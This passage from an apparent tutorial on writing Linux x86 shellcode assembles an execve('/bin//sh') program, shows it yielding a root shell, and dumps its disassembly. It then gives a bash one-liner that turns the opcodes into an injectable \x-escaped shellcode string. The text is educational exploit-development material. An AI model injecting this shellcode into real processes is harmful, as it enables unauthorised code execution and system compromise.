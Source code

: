 Now, let's assemble it and check if it properly works and does not contain any *null* bytes.

```
# nasm -f elf32 execve.asm
# ld -m elf_i386 execve.o -o execve
# ./execve 
# id
uid=0(root) gid=0(root) groups=0(root)
# exit    

# objdump -Mintel -D execve

08049000 <_start>:
 8049000:       31 c0                   xor    eax,eax
 8049002:       50                      push   eax
 8049003:       68 6e 2f 73 68          push   0x68732f6e
 8049008:       68 2f 2f 62 69          push   0x69622f2f
 804900d:       89 e3                   mov    ebx,esp
 804900f:       31 c9                   xor    ecx,ecx
 8049011:       31 d2                   xor    edx,edx
 8049013:       b0 0b                   mov    al,0xb
 8049015:       cd 80                   int    0x80
```

**Note:** There are multiple ways to write the same shellcode, this is merely an example.
{: .notice--info}

I know what you are thinking: "Hey, this isn't a shellcode, it's an executable !", and you're right ! This is an **ELF** file.

```bash
$ file execve
execve: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

As we assembled (`nasm`) and linked (`ld`) our code, it's contained in an ELF but, in a real use case you don't inject an ELF file, as the executable you target is already mapped in memory you just need to inject the code. 

You can easly extract the shellcode using `objdump` and some *bash-fu* :

```bash
$ objdump -d ./execve|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"
```

Now, you can use this string or *shellcode* and inject it into a process.

# Shellcode Loader

Now, let's say you want to test your shellcode. First, we need something to interpret our shellcode. As you know, a shellcode is meant to be injected into a running program as it doesn't have any function execute itself like a classic ELF. You can use the following piece of code to do that :
